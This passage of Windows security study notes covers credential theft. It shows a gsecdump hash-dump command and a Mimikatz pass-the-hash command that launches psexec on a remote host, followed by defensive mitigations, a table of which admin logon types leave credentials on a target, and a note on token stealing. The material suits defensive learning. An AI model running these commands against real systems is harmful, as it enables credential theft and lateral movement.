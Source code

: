 **Examples**
- Hash dump with Gsecdump
```
gsecdump.exe -a > 1.txt
```

- Pass the Hash (Mimikatz)
```
mimikatz # sekurlsa::pth /user:username /domain:computername /ntlm:hash /run:".\psexec.exe -accepteula \\10.10.10.10 cmd.exe"
```

### Protecting Hashes

- Prevent admin account compromise
- Stop remote interactive sessions with highly privileged accounts
- Proper termination of RDP sessions
- Win 8.1+: force the use of Restricted Admin?
- Win 10+: deploy Remote Credential Guard
- Upgrade to Windows 10+
- Credential Guard
- TsPkg, WDigest, etc.: SSO creds obsolescence
- Domain Protected Users Group (PtH mitigation)

#### Credential Availability Based on Admin Action

| Admin Action | Logon Type | Credentials on Target? | Notes |
|---|---|---|---|
| Console logon | 2 | Yes* | *Except when Credential Guard is enabled |
| RunAs | 2 | Yes* | *Except when Credential Guard is enabled |
| Remote Desktop | 10 | Yes* | *Except for enabled Remote Credential Guard |
| Net Use | 3 | No | Including /u: parameter |
| PowerShell Remoting | 3 | No | Invoke-Command; Enter-PSSession |
| PsExec alternate creds | 3+2 | Yes | `-u <username> -p <password>` |
| PsExec w/o explicit creds | 3 | No |  |
| Remote Scheduled Task | 4 | Yes | Password saved as LSA Secret |
| Run as a Service | 5 | Yes | (w/ user account) - Password saved as LSA Secret |
| Remote Registry | 3 | No |  |

---

### Tokens

**NOTE:** **delegate tokens** enable domain admins to complete “double hops” essentially accessing a remote workstation, map a Share Drive from their host machine to the remote machine to pull and update patches. That connection copies their delegate token to that remote machine making the remote machine vulnerable to token stealing.
